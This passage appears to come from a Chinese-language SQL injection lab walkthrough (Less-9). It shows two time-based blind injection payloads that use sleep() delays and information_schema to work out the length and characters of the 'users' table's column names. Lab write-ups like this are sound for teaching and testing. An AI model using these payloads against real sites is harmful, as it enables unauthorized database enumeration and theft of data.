 

+ 
  注入如下语句逐一判断所有字段名的长度

~~~ shell
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
~~~

由于页面没有延迟，说明所有字段名长度不大于20

![Less-9_10](./img/Less-9_10.png)



+ 注入如下语句逐一判断字段名

~~~ shell
?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
~~~

由于页面有延迟，说明所有字段名第一个字符的<code>ASCII</code>值大于99
